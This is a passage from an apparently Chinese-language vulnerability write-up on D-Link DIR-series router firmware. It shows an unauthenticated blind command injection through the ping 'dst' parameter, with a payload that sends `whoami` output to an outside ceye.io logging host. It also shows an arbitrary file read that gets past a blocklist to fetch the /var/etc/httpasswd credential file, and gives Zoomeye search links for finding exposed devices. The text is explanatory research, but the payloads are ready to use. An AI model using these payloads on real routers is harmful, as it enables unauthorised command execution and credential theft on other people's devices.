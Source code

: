 分析代码可以看到，这里没有进行权限认证，所以可以直接绕过登录。继续往下看，`set("/runtime/diagnostic/ping", $_POST["dst"]);` 这段代码就是造成漏洞的关键代码。参数`dst` 没有任何过滤直接进入到了 ping 的命令执行里，导致任意命令执行漏洞。继续往下看 `$result = "OK";`无论是否执行成功，这里都会显示 OK。所以这是一个盲注的命令执行。以此构造 payload

    url = 'localhost/diagnostic.php'
    data = "act=ping&dst=%26 ping `whoami`.ceye.io%26"

因为是盲注的命令执行，所以这里需要借助一个盲打平台（如：[ceye](http://ceye.io/)），来验证漏洞是否存在。

##### D-Link DIR-300 & DIR-320 & DIR-600 & DIR-615 信息泄露漏洞

**Zoomeye dork:**[DIR-300](https://www.zoomeye.org/searchResult?q=%20DIR-300&t=all) or [DIR-600](https://www.zoomeye.org/searchResult?q=%20DIR-600&t=all)

这里以 D-Link DIR-300 固件为例，解开固件进入 `suashfs-root/www` 文件夹。

漏洞出现在`/model/__show_info.php`文件。

    <?
    if($REQUIRE_FILE == "var/etc/httpasswd" || $REQUIRE_FILE == "var/etc/hnapasswd")
    {
        echo "<title>404 Not Found</title>\n";
        echo "<h1>404 Not Found</h1>\n";
    }
    else
    {
        if($REQUIRE_FILE!="")
        {
            require($LOCALE_PATH."/".$REQUIRE_FILE);
        }
        else
        {
            echo $m_context;
            echo $m_context2;//jana added
            if($m_context_next!="")
            {
                echo $m_context_next;
            }
            echo "<br><br><br>\n";
            if($USE_BUTTON=="1")
            {echo "<input type=button name='bt' value='".$m_button_dsc."' onclick='click_bt();'>\n"; }
        }
    }
    ?>

这里看到已经禁止了`$REQUIRE_FILE`的参数为`var/etc/httpasswd`和`var/etc/hnapasswd`。这么一看无法获取账号密码。但是我们可以从根路径开始配置`httpasswd`的路径，就可以绕过这个过滤了。

payload：

    localhost/model/__show_info.php?REQUIRE_FILE=/var/etc/httpasswd

这里设置`REQUIRE_FILE=/var/etc/httpasswd` 成功绕过上面的 if 判断，进行任意文件读取。

##### D-Link DIR-300 & DIR-320 & DIR-615 权限绕过漏洞
